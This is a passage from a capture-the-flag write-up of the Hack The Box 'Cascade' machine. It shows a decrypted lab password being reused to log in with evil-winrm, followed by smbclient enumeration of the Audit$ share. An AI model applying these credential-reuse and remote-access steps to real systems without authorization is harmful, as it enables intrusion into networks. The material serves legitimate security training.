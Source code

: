 I used the hex we found inside the decrypt and It gives us the password.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cascade/Untitled%201.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cascade/Untitled%201.png)

I tried login evil-winrm with the credentials `s.smith : sT333ve2`

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cascade/Untitled%202.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cascade/Untitled%202.png)

After some enumeration I decided to check SMB again with the new user

```nix
root@kali:~/CTF/HTB/Boxes/Cascade# smbclient -L 10.10.10.182 -U 's.smith'
Enter WORKGROUP\s.smith's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	Audit$          Disk      
	C$              Disk      Default share
	Data            Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	print$          Disk      Printer Drivers
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
root@kali:~/CTF/HTB/Boxes/Cascade# smbclient //10.10.10.182/Audit$ -U 's.smith'
Enter WORKGROUP\s.smith's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 29 23:31:26 2020
  ..                                  D        0  Wed Jan 29 23:31:26 2020
  CascAudit.exe                       A    13312  Wed Jan 29 03:16:51 2020
  CascCrypto.dll                      A    12288  Wed Jan 29 23:30:20 2020
  DB                                  D        0  Wed Jan 29 03:10:59 2020
  RunAudit.bat                        A       45  Wed Jan 29 04:59:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 12:08:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 12:08:38 2019
  x64                                 D        0  Mon Jan 27 03:55:27 2020
  x86                                 D        0  Mon Jan 27 03:55:27 2020

```